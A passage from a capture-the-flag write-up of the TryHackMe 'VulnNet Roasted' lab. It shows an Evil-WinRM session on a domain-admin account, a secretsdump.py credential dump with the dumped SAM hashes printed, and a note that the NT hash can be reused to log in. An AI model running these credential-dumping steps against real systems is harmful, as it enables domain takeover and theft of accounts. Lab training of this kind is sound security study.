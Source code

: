 ```tsx
*Evil-WinRM* PS C:\Users\Administrator> net user a-whitehat
User name                    a-whitehat
Full Name                    Alexa Whitehat
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/11/2021 12:47:12 PM
Password expires             Never
Password changeable          3/12/2021 12:47:12 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

The user `a-whithat` is in **domain admin**, we can perform a **DCSync attack** to get the administrator hash.

Use `secretsdump.py` to perform the **************************DCSync attack**************************:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py a-whitehat@10.10.73.84
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
```

Notice that the format of the result is `uid:rid:lmhash:nthash` → the last string displays in each line is the `nthash` that we can use to login.
